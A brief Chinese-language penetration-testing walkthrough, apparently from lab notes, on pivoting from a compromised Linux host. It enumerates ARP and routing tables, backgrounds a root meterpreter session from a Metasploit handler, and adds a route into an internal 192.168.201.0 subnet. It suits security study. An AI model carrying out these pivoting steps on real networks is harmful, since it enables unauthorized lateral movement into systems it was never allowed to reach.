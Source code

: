 



`arp`查看缓存表，可知与该主机通信的ip

![image-20211012194804529](/assets/image-20211012194804529.png)



`route`查看路由表，可知该主机存在那些网段：

![image-20211012194747200](/assets/image-20211012194747200.png)



建立路由，`route add 192.168.201.0 255.255.255.0 2`,会话id:2

```shell
meterpreter > background              #保存会话
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > sessions        #查看会话id

Active sessions
===============

  Id  Name  Type                   Information                                                                       Connection
  --  ----  ----                   -----------                                                                       ----------
  2         meterpreter x64/linux  root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0) @ localhost.local...  192.168.111.132:4444 -> 192.168.111.132:52278 (::1)

msf6 exploit(multi/handler) > route add 192.168.201.0 255.255.255.0 2  #为192.168.201.0网段添加路由
[*] Route added
msf6 exploit(multi/handler) >

```
